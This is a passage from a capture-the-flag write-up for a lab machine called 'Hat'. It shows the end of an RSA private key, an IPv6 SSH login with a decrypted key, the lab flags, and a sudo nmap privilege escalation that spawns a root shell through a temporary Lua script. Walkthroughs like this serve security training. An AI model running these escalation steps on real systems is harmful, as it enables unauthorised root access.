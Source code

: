     Yb1XNJbekKijjPMngo6m8FQ8Zym8nPAOLwiDZdkCgYEAj3mJ0OapGk1cKuA5gktq
    YyzS7t0/w42cKurf3PAcX1V9fdUdgjEBzC4MdcknAaD7lpProBNY97KfiJdT0mN2
    3mWlrw0JgKQIUvWzyhuzu1t/x7fMgs1thTcXIEjsYRay/FiuyB05hynuUxBN6CUm
    5pzdj8EPA86k96u47yQ73yECgYAnO+aA82BA5zd/9TknTWKDYMhyaEO+OcfV43b0
    IKFBXvSvDiLD9s3pSeNumea03AOG/kk3sD4EO5aY7s9Zc605oEE5R8w8qnaQIIGK
    AxpktKTAuy+Y8KMEiWdLJXiCHI80vkfM8Rl1WCBBA8uT3PKbp5zfGvJieL5TxKBL
    72wtMQKBgQDKGEpwUZertbCb4TnJ92KnXDZphHAq7lWvwMjAAQ1rYGe+Uol3k4FQ
    f51su1tZveQoj2xSqWDtmbjqaGY9HDqUhrdiJ5IcZrHGqAhsHz0Gk1ZyLXpaY32W
    XaP2XTgOss2VqMTbxvKGm+iJWM0c7TUL27FwHBKEVQgGLnPbIQJBtg==
    -----END RSA PRIVATE KEY-----

# ***IPV6 ??***



    root@kali ~/D/M/Hat [255]# ssh -6 cromiphi@fe80::a00:27ff:fed7:be10%eth0 -i decrypted_id_rsa

## ***PRIVILEGE ESCALATION***

We can read the first flag on the user's home directory.

    cromiphi@Hat:~$ cat user.txt 
    SdkGsrHxqR52kESSTf6erQZ82jPeHk

Let's see if the user can run any commands with sudo permissions.

    cromiphi@Hat:/home$ sudo -ll
    Matching Defaults entries for cromiphi on Hat:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User cromiphi may run the following commands on Hat:

    Sudoers entry:
        RunAsUsers: root
        Options: !authenticate
        Commands:
            /usr/bin/nmap

The user can run **`NMAP`** as root. Let's search for [**`NMAP Privilege Escalation`**][2].

## **Exploitation**

    cromiphi@Hat:~$ TF=$(mktemp)
    cromiphi@Hat:~$ echo 'os.execute("/bin/bash")' > $TF
    cromiphi@Hat:~$ sudo nmap --script=$TF

![image](https://user-images.githubusercontent.com/76552238/175051830-e9914ec7-5a50-4298-b3ba-1a1464f33dc6.png)

We can now read the final flag on the root directory.

    root@Hat:~# cat root.txt
    root@Hat:~# w3ZhpQtnkxnb8BrqqYK6EGB9rDJ69T


[1]: "https://vk9-sec.com/ssh2john-how-to/"
[2]: "[awd](https://gtfobins.github.io/gtfobins/nmap/)"